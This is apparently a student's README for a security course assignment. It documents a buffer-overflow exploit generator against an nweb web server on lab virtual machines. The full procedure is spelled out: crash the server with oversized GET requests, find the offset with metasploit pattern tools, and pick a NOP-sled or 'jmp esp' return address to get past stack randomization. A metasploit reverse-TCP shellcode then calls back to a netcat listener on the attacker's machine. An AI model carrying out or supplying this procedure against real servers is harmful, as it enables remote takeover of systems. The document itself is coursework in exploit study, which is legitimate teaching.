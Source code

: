 # Programming Assignment 1 - Eric Seals

Documentation for correctly using the exploit generator. There are two directories for task 1 and task 2, which are exploit8 and exploit9 respectively.

# Task 1

## Compile the c++ exploiter

There are two relevant files, `exploit8.cpp` and `Makefile`. 

Build: 
```bash
$ make 
```

Run:
```bash
$ ./exploit <memory address> <offset>
```

## Find Offset and Memory Address

Confirm the web server is running on `192.168.180.40:8888`.
On the Kali machine with IP `192.168.180.10`, generate arbitrarily long malicious input to crash program. For example, start with the character 'A' 1500 times.

```bash
$ EGG=`perl -e "print 'A'x1500"`
$ echo GET $EGG HTTP/1.0 | nc 192.168.180.40 8888
```

With a valid length input which crashes program, use metasploit to find exact size. For example, 1500 is used below as this was the experimentally found value large enough to crash the server.

```bash
$ cd /usr/share/metasploit-framework/tools/exploit
$ ./pattern_create.rb -l 1500
```
Assign the output of this program into the environment variable `$EGG` and issue the above echo again. On the redhat8 vm, open the newly generated core file with gdb.

```bash
$ gdb --core core.xyz
```

Copy the value where the program crashed, for example `0x69423469`. Also note the address of $esp by the following command in gdb, for example `0xbffffb00`.

```gdb
x/x $esp
```

Back on the Kali machine at the same working directory used to create the pattern, execute:

```bash
$ ./pattern_offset.rb -q 0x69423469
```

This will now give you the offset which was found to be `1033`.

## Use the exploit (almost there)

Now use the cpp program with the offset and the jump location as an arbitrary value:

```bash
$ EGG=`./exploit 41414141 1033`
```

There's two options at this point, either (1) send this input to the RedHat8 machine, 
open the core file generated on the RedHat8 machine in gdb, and search through the 
memory around `x/64 $esp-0x300` to find a 
jump location that hits in the NOP Sled (where the memory addresses are 0x90), or (2) 
use the observed $esp from above and subtract the hex value outputted to cerr
when running the above command and use this value as an address.

Now use the cpp program with a found address:

```bash
$ EGG=`./exploit bfff6f7 1033`
```

On another terminal window in Kali, run the following netcat command to receive the shell

```bash
$ nc -l -p 8228 -nvv
```
And finally on the first window, execute:
```bash
$ echo GET /$EGG HTTP/1.0|nc 192.168.180.40 8888
```

## Some Notes

The shell byte code is generated with metasploit, specifically the linux/x86/shell_reverse_tcp with x86/alpha_mixed encoder.
LHOST=192.168.180.10 and LPORT=8228.

These values were generated exactly the same way as described in the September 7th lecture.

# Task 2

Please proceed into exploit9 directory and make the code as in the previous task. 

Build: 
```bash
$ make 
```

Run:
```bash
$ ./exploit <jmp address> <offset>
```

For this task, several aspects are the same from the previous task. These are (1) nweb offset, (2) shell byte code, (3) and the LPORT and LHOST for the Kali machine to listen. This assumes a RedHat9 vm running with IP address 192.168.180.50 with the web server running on port 8888.

## Stack Randomization

In order to get around the stack randomization, the provided program `searchJmpCode` is used to find an address to overwrite the EIP. This is ran on the RedHat9 machine, and for example one jmp is found at `0x42122ba7`. This address exploits the static memory location of libc (or any popular, or commonly used library) and searchs for a pattern in the code for a `jmp esp`. 

With this, the exploit works similarly as it overwrites the EIP with a found address, but now it places the shell byte code after the ESP (with enough space for decoder bytes).

To run, in a Kali window to receive the shell:

```bash
$ nc -l -p 8228 -nvv
```

On another terminal window in Kali, run the following two commands to receive the shell

Run:
```bash
$ EGG=`./exploit 42122ba7 1033`
$ echo GET /$EGG HTTP/1.0|nc 192.168.180.50 8888
```




























